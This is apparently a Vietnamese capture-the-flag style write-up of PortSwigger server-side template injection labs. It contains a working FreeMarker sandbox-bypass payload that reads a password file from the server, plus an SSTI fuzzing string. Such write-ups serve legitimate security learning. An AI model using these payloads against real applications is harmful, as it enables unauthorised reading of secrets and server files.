 ![image](https://hackmd.io/_uploads/rk8Evsmca.png)

mình dùng templat như bài trước nhưng không được

### Khai thác

Tất cả đều không được vì dòng freemarker.template.utility.Execute đã bị chặn, nên mình cần tìm một payload khác, và mình đã chọn payload này:

![image](https://hackmd.io/_uploads/rJwaPim9T.png)

và mình dùng payload này và gửi gói tin

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![image](https://hackmd.io/_uploads/Sku3OoQ9p.png)

mình dùng tool kt.gy để chuyển về dạng text ASCII và được ==ubxccfiposiwtrt4dt1k==

![image](https://hackmd.io/_uploads/B1ImYjmqa.png)

mình submit và đã giải quyết được lab này

![image](https://hackmd.io/_uploads/rku8Yim5p.png)

## 7. Lab: Server-side template injection with a custom exploit

link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit

### Đề bài

![image](https://hackmd.io/_uploads/HJS-RsX5a.png)

### Phân tích

- Sau khi đăng nhập, ứng dụng chứa 2 chức năng cho phép user thay đổi cách hiển thị tên trong các post và upload avatar.

![image](https://hackmd.io/_uploads/B1VdAo796.png)

Tương tự bài lab 2, chức năng thay đổi cách hiển thị tên trong các post bị dính SSTI. Fuzz với payload `${{<%[%'"}}%\`,

![image](https://hackmd.io/_uploads/SkYy12X5a.png)

ta thấy server báo lỗi chứa template engine Twig của PHP.

![image](https://hackmd.io/_uploads/ryCbyhmcT.png)
